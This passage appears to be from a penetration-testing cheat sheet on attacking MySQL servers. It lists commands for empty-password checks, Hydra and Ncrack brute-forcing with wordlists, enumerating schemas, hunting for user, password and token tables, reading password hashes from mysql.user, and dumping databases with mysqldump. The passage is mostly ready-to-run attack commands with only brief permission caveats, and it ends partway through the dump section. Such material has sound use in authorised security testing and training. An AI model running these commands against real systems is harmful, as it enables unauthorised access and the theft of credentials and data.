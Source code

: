 Quick credential checks:
```bash
# Check anonymous/empty password quickly
nmap -p 3306 --script mysql-empty-password $IP

# Try interactive login (blank password)
mysql -h $IP -u root

# Try common usernames (non-interactive password). Beware shell history.
mysql -h $IP -u root -p"$P" -e "SELECT VERSION();"
```

Hydra/Ncrack brute-force (only with permission):
```bash
# Single user, wordlist
hydra -l root -P /usr/share/wordlists/rockyou.txt -s 3306 -f $IP mysql

# Multiple users and passwords
hydra -L users.txt -P passwords.txt -s 3306 -vV -o hydra_mysql.txt $IP mysql

# Ncrack alternative
ncrack -v -p mysql://$IP -u root -P passwords.txt
```

Post-authentication enumeration via mysql client:
```bash
# One-liners
mysql -h $IP -u $U -p"$P" -e "SELECT VERSION(), @@version_comment, @@hostname, @@port;"
mysql -h $IP -u $U -p"$P" -e "SELECT CURRENT_USER(), USER();"
mysql -h $IP -u $U -p"$P" -e "SHOW GRANTS FOR CURRENT_USER();"
mysql -h $IP -u $U -p"$P" -e "SHOW VARIABLES LIKE 'secure_file_priv';"
mysql -h $IP -u $U -p"$P" -e "SHOW DATABASES;"

# List schemas, tables, columns (excluding system schemas)
mysql -h $IP -u $U -p"$P" -e "SELECT schema_name FROM information_schema.schemata;"
mysql -h $IP -u $U -p"$P" -e "SELECT table_schema,COUNT(*) FROM information_schema.tables GROUP BY table_schema;"
mysql -h $IP -u $U -p"$P" -e "SELECT table_schema,table_name FROM information_schema.tables WHERE table_schema NOT IN ('mysql','information_schema','performance_schema','sys') ORDER BY table_schema,table_name LIMIT 200;"

# Hunt for interesting names
mysql -h $IP -u $U -p"$P" -e "SELECT table_schema,table_name FROM information_schema.tables WHERE table_name RLIKE '(user|account|pass|credential|login|member|token)' ORDER BY table_schema,table_name;"
mysql -h $IP -u $U -p"$P" -e "SELECT table_schema,table_name,column_name,data_type FROM information_schema.columns WHERE table_schema NOT IN ('mysql','information_schema','performance_schema','sys') AND column_name RLIKE '(user|mail|email|pass|hash|token)' ORDER BY table_schema,table_name;"

# MySQL users and auth info (requires privileges)
mysql -h $IP -u $U -p"$P" -e "SELECT user,host,plugin,authentication_string FROM mysql.user;"
```

Dump data:
```bash
# List tables in a specific DB
DB=appdb
mysql -h $IP -u $U -p"$P" -e "USE $DB; SHOW TABLES;"

# Peek a table
mysql -h $IP -u $U -p"$P" -e "USE $DB; SELECT * FROM users LIMIT 5;"

# Dump a database
mysqldump -h $IP -u $U -p"$P" $DB > ${DB}.sql

# Dump all databases (may be large; ensure scope permits)
```